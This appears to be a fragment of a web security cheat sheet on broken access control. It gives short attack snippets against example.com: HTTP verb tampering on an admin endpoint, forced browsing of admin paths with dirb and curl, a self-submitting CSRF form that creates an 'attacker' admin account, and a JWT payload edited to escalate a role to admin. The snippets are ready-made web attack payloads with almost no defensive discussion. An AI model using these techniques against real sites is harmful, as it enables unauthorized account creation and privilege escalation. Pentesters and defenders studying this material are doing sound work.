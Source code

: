 ### HTTP Method Tampering

```
# If GET is blocked but POST is not checked
GET /admin/create_user    # Returns 403 Forbidden
POST /admin/create_user   # Might succeed
```

### Forced Browsing

```bash
# Using tools like DIRB, Gobuster, or ffuf to discover endpoints
dirb https://example.com /usr/share/wordlists/dirb/big.txt

# Forced browsing to common admin paths
curl https://example.com/admin
curl https://example.com/administrator
curl https://example.com/console
curl https://example.com/management
curl https://example.com/control
curl https://example.com/dashboard
```

### Request Forgery to Bypass Access Controls

```html
<!-- CSRF to exploit poorly protected admin function -->
<form id="csrf-form" action="https://example.com/admin/add_user" method="POST">
  <input type="hidden" name="username" value="attacker">
  <input type="hidden" name="role" value="admin">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

### JWT Token Manipulation

```javascript
// Decode JWT token
const token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMzM3LCJyb2xlIjoidXNlciJ9.y65Uyt-tJFyfToi4k3GtJ7bXrGNtfMyxpzT8L_q52D4';

// Decoded payload
{
  "user_id": 1337,
  "role": "user"
}

// Manipulated payload (change role to admin)
{
  "user_id": 1337,
  "role": "admin"
}

// If signature verification is poorly implemented, create new token with manipulated payload
```
